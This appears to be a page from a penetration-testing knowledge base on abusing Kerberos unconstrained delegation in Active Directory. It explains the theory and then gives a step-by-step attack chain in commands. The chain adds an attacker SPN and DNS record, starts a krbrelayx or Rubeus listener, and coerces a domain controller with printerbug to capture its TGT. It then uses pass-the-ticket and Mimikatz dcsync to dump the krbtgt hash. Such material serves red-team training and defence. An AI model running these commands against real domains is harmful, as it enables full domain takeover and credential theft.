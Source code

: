 # (KUD) Unconstrained

## Theory

If an account (user or computer), with unconstrained delegations privileges, is compromised, an attacker must wait for a privileged user to authenticate on it (or [force it](../../mitm-and-coerced-authentications/)) using Kerberos. The attacker service will receive an ST (service ticket) containing the user's TGT. That TGT will be used by the service as a proof of identity to obtain access to a target service as the target user. Alternatively, the TGT can be used with [S4U2self abuse](s4u2self-abuse.md) in order to gain local admin privileges over the TGT's owner.

{% hint style="warning" %}
If the coerced account is "[is sensitive and cannot be delegated](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/how-to-configure-protected-accounts)" or a member of the "[Protected Users](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group)" group, its TGT will not be delegated in the service ticket used for authentication against the attacker-controlled KUD account.

**Nota bene**: the native, RID 500, "Administrator" account doesn't benefit from that restriction, even if it's added to the Protected Users group (source: [sensepost.com](https://sensepost.com/blog/2023/protected-users-you-thought-you-were-safe-uh/)).
{% endhint %}

{% hint style="info" %}
Unconstrained delegation abuses are usually combined with an [MS-RPRN abuse (printerbug)](../../mitm-and-coerced-authentications/ms-rprn.md), [MS-EFSR abuse (petitpotam)](../../mitm-and-coerced-authentications/ms-efsr.md), [MS-FSRVP abuse (shadowcoerce)](../../mitm-and-coerced-authentications/ms-fsrvp.md), r [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to gain domain admin privileges.
{% endhint %}

![](../../../../.gitbook/assets/Kerberos\_delegations-unconstrained.drawio.png)

## Practice

{% tabs %}
{% tab title="From the attacker machine (UNIX-like)" %}
In order to abuse the unconstrained delegations privileges of an account, an attacker must add his machine to its SPNs (i.e. of the compromised account) and add a DNS entry for that name.

This allows targets (e.g. Domain Controllers or Exchange servers) to authenticate back to the attacker machine.

All of this can be done from UNIX-like systems with [addspn](https://github.com/dirkjanm/krbrelayx), [dnstool](https://github.com/dirkjanm/krbrelayx) and [krbrelayx](https://github.com/dirkjanm/krbrelayx) (Python).

{% hint style="info" %}
When attacking accounts able to delegate without constraints, there are two major scenarios

* **the account is a computer**: computers can edit their own SPNs via the `msDS-AdditionalDnsHostName` attribute. Since ticket received by krbrelayx will be encrypted with AES256 (by default), attackers will need to either supply the right AES256 key for the unconstrained delegations account (`--aesKey` argument) or the salt and password (`--krbsalt` and `--krbpass` arguments).
* **the account is a user**: users can't edit their own SPNs like computers do. Attackers need to control an [account operator](../../domain-settings/builtin-groups.md) (or any other user that has the needed privileges) to edit the user's SPNs. Moreover, since tickets received by krbrelayx will be encrypted with RC4, attackers will need to either supply the NT hash (`-hashes` argument) or the salt and password (`--krbsalt` and `--krbpass` arguments)
{% endhint %}

{% hint style="success" %}
By default, the salt is always

* **For users**: uppercase FQDN + case sensitive username = `DOMAIN.LOCALuser`
* **For computers**: uppercase FQDN + hardcoded `host` text + lowercase FQDN hostname without the trailing `$` = `DOMAIN.LOCALhostcomputer.domain.local`\
  `(using` DOMAIN.LOCAL\computer$ `account)`
{% endhint %}

```bash
# 1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'

# 2. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'

# 3. Check that the record was added successfully (after ~3 minutes)
nslookup attacker.DOMAIN_FQDN DomainController

# 4. Start the krbrelayx listener (the tool needs the right kerberos key to decrypt the ticket it will receive)
# 4.a. either specify the salt and password. krbrelayx will calculate the kerberos keys
krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'
# 4.b. or supply the right Kerberos long-term key directly
krbrelayx.py -aesKey aes256-cts-hmac-sha1-96-VALUE

# 5. Authentication coercion
# PrinterBug, PetitPotam, PrivExchange, ...
printerbug.py domain/'vuln_account$'@'DC_IP' -hashes LM:NT 'DomainController'

# 6. Check if it works. Krbrelayx should have received and decrypted a ticket, extracting the coerced principal's TGT.
# There should be a krbtgt ccache file in the current directory. And it can be used by
export KRB5CCNAME=`pwd`/'krbtgt.ccache'
```

{% hint style="warning" %}
In case, for some reason, attacking a Domain Controller doesn't work (i.e. error saying`Ciphertext integrity failed.`) try to attack others (if you're certain the credentials you supplied were correct). Some replication and propagation issues could get in the way.
{% endhint %}

Once the krbrelayx listener is ready, an [authentication coercion attack](../../mitm-and-coerced-authentications/) (e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange), [PetitPotam](../../mitm-and-coerced-authentications/ms-efsr.md)) can be operated. The listener will then receive a Kerberos authentication, hence a ST, containing a TGT.

The TGT will then be usable with [Pass the Ticket](../../../../ad/movement/kerberos/delegations/broken-reference/) (to act as the victim) or with [S4U2self abuse](s4u2self-abuse.md) (to obtain local admin privileges over the victim).
{% endtab %}

{% tab title="From the compromised computer (Windows)" %}
Once the KUD capable host is compromised, [Rubeus](https://github.com/GhostPack/Rubeus) can be used (on the compromised host) as a listener to wait for a user to authenticate, the ST to show up and to extract the TGT it contains.

```bash
Rubeus.exe monitor /interval:5
```

Once the monitor is ready, a [forced authentication attack](../../mitm-and-coerced-authentications/) (e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange)) can be operated. Rubeus will then receive an authentication (hence a Service Ticket, containing a TGT). The TGT can be used to request a Service Ticket for another service.

```bash
Rubeus.exe asktgs /ticket:$base64_extracted_TGT /service:$target_SPN /ptt
```

Alternatively, the TGT can be used with [S4U2self abuse](s4u2self-abuse.md) in order to gain local admin privileges over the TGT's owner.

Once the TGT is injected, it can natively be used when accessing a service. For example, with [Mimikatz](https://github.com/gentilkiwi/mimikatz), to extract the `krbtgt` hash with [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync).

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://stealthbits.com/blog/unconstrained-delegation-permissions/" %}

{% embed url="https://exploit.ph/user-constrained-delegation.html" %}

{% embed url="https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/" %}
